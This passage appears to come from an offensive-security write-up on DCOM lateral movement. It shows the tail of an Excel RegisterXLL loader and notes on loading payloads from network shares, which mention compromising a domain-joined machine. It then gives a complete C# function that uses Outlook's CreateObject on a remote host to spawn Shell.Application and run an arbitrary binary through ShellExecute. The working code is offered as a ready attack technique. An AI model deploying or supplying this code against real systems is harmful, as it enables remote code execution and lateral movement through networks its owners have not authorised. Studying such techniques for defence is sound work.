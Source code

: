 ```cs
        // Cleaning Up
        if (File.Exists(fakePath))
        {
            File.Delete(fakePath);
        }

        // An exception was raised before, re-raising it
        if (regXLLex != null)
        {
            Console.WriteLine($" [x] ERROR: RegisterXLL threw {regXLLex.Message}");
        }

    }
    catch (Exception e)
    {
        Console.WriteLine(" [x] {0}", e.Message);
    }
}
```

To finish, a few key notes on loading from network shares:

    - The network share should exist and be mapped to a drive already
    - You must be an Admin to enable a share on the machine
    - In AD context, you might not be able to use a a network share mapped via IP, so you may need to compromised a machine joined to the domain to do that

#### Outlook ShellExecute

Another interesting method, is Outlook's `CreateObject`. This method allows Outlook to create instances of other DCOM objects. Taking into consideration that certain COM objects allows to execute arbitrary code pretty easily, it's very easy to spot why that's an issue. Briefly, it is possible to: 

* create a `Shell.Application` COM object using `CreateObject` 
* execute commands with it using `ShellExecute`

```cs
public static void OutlookShellEx(string target, string binary, string arg)
{
    try
    {
        var type = Type.GetTypeFromProgID("Outlook.Application", target);
        var obj = Activator.CreateInstance(type);

        var shell = obj.GetType().InvokeMember("CreateObject", BindingFlags.InvokeMethod, null, obj,
            new object[] { "Shell.Application" });
        shell.GetType().InvokeMember("ShellExecute", BindingFlags.InvokeMethod, null, shell,
            new object[] { binary, arg, @"C:\Windows\System32", null, 0 });
    }
    catch (Exception e)
    {
        Console.WriteLine(" [x] {0}", e.Message);
    }
}
```
